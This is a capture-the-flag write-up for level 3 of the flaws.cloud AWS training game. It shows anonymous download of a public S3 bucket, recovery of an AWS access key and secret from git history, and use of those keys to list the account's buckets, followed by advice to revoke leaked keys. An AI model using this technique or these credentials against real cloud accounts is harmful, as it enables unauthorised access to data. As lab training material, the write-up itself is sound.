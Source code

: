 # Flaws Cloud
### URl: http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/

# Level 3
### The next level is fairly similar, with a slight twist. Time to find your first AWS key! I bet you'll find something that will let you list what other buckets are.

# Writeup

```
$ aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2

... it will download all the files ...
```

Now, with `git log` we can get the commit history

```
$ git log
...
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```

yay, there is a commit named as `Oops, accidentally added something I shouldn't have`. So there might be some juicy content in that file.

On checking difference between commits, we can see aws credentials.

```
$ git diff b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 f52ec03b227ea6094b04e43f475fb0126edb5a61
diff --git a/access_keys.txt b/access_keys.txt
new file mode 100644
index 0000000..e3ae6dd
--- /dev/null
+++ b/access_keys.txt
@@ -0,0 +1,2 @@
+access_key AKIAJ366LIPB4IJKT7SA
+secret_access_key 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
```

Using `aws config` we can configure new user's credentials.

If we list all the buckets, we can see all the buckets from level 1 to 6. But of course you can't cheat by going to leevl 5 or 6, because the creator already know about it, haha. It will say `Don't try to cheat and skip levels.`

```
$ aws s3api list-buckets
{
    "Buckets": [
        {
            "Name": "2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud",
            "CreationDate": "2017-02-12T21:31:07.000Z"
        },
        {
            "Name": "config-bucket-975426262029",
            "CreationDate": "2017-05-29T16:34:53.000Z"
        },
        {
            "Name": "flaws-logs",
            "CreationDate": "2017-02-12T20:03:24.000Z"
        },
        {
            "Name": "flaws.cloud",
            "CreationDate": "2017-02-05T03:40:07.000Z"
        },
        {
            "Name": "level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud",
            "CreationDate": "2017-02-24T01:54:13.000Z"
        },
        {
            "Name": "level3-9afd3927f195e10225021a578e6f78df.flaws.cloud",
            "CreationDate": "2017-02-26T18:15:44.000Z"
        },
        {
            "Name": "level4-1156739cfb264ced6de514971a4bef68.flaws.cloud",
            "CreationDate": "2017-02-26T18:16:06.000Z"
        },
        {
            "Name": "level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud",
            "CreationDate": "2017-02-26T19:44:51.000Z"
        },
        {
            "Name": "level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud",
            "CreationDate": "2017-02-26T19:47:58.000Z"
        },
        {
            "Name": "theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud",
            "CreationDate": "2017-02-26T20:06:32.000Z"
        }
    ],
    "Owner": {
        "DisplayName": "0xdabbad00",
        "ID": "d70419f1cb589d826b5c2b8492082d193bca52b1e6a81082c36c993f367a5d73"
    }
}
```

Next, level 4: http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/

# How to stop this vulnerability
- People often leak AWS keys and then try to cover up their mistakes without revoking the keys. You should always revoke any AWS keys (or any secrets) that could have been leaked or were misplaced. Roll your secrets early and often.
